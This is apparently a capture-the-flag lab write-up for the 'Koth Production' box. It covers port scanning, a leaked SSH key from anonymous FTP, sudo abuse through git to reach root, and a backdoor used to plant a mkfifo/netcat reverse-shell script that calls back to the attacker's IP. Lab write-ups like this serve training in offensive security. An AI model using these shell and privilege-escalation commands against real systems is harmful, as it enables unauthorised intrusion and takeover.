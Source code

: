 # Koth Production

---------------------
## IP: `10.10.224.175`

---------------------
##### Let's search for Open Ports via Nmap: <br />

`nmap -sC -sV -oN nmap/initial 10.10.224.175`<br />

```
21
22
139
445
9001
9002
```

![image](images/nmap.png)

----------------------
##### We can see `anonymous` login enabled for `ftp`: <br />

> Let's login then (:<br />

![image](images/ftp.png)


We get id-rsa of a user, if we get the public key too, and cat that out we can see the id_rsa was of user `ashu`<br />

-----------------------
##### Login via user `Ashu`:<br />

First you need to give the id_rsa read,write permissions using<br />

`chmod 600 id_rsa`

Let's login-<br />

`ssh -i id_rsa ashu@10.10.224.175`

-------------------------
##### Getting root via user `ashu`:<br />

>Let's check for sudo abilities for ashu<br />

`sudo -l`<br />

![image](images/ashu.png)


We see, we can just directly switch to user `skidy` with sudo-<br />

`sudo su skidy`<br />

![image](images/skidy.png)

YAY!<br />

Now, before priv-esc, if we try to look into the home directory of user `skidy`, we will find a<br /> directory named `homework`, and in there there's a python script `server1.py`, if you cat that<br />
you'll find the password you need to enter to access the backdoor on port `9001`<br />

![image](images/python.png)

Let's check for the sudo abilities of user `skidy`:<br />

![image](images/skidysudo.png)

```
We see /usr/bin/git there, let's check its gtfo-bins page
```
[GTFO-BINS](https://gtfobins.github.io/gtfobins/git/)

![image](images/gtfo.png)

> After doing-<br />

`sudo git -p help config`<br />

we can type `!/bin/bash` to get root<br />

![image](images/git.png)

------------------------
##### Getting Root via port `9001, 9002`:<br />

```
nc 10.10.224.175 9001
```

> It is a backdoor for user ashu...

put the pass we found in the python script in the home directory of user skidy `y......!`<br />

![image](images/9001.png)

> On port 9001, do-<br />

`echo "#!/bin/bash\nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.91.66 8888 >/tmp/f" > /tmp/a; chmod +x /tmp/a`<br />

![image](images/echo.png)

Now, let's use port `9002` to get a rev-shell on the port we put above-<br />

```
nc 10.10.224.175 9002
```

to get a rev-shell on port `8888`, start a netcat listener on your machine<br />

`nc -lnvp 8888`<br />

NOW on port 9002, run the command-<br />

```
/tmp/./a
```

> Yep, we got our shell as root (:<br />

![image](images/netcat.png)

-------------------
Thanks For Reading <3